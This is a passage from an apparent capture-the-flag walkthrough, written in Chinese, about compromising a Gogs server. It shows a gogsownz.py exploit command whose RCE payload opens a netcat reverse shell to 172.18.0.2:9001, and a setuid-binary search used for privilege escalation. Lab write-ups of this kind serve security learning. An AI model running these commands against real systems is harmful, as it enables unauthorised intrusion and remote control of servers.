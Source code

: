 现在我在 kaneki-pc 上有了 ncat，我用语法尝试了 RCE

```
python3 gogsownz.py [http://localhost:3000/](http://localhost:3000/) -v -C "AogiriTest:test@aogiri123" --rce "nc 172.18.0.2 9001 -e /bin/bash" -n i_like_gogits
```

![](img/89c1d3314ee7f6c3e2b39e64f96e58ec.png)

我现在在 Gogs 服务器上获得了一个 shell！枚举，我看到我是 Git 用户。我通过调用以下命令快速检查设置了 setuid 的二进制文件:

```
find / -perm -u=s -type f 2>/dev/null
```

![](img/fb93c9d18e471e82016791a52a6b4984.png)
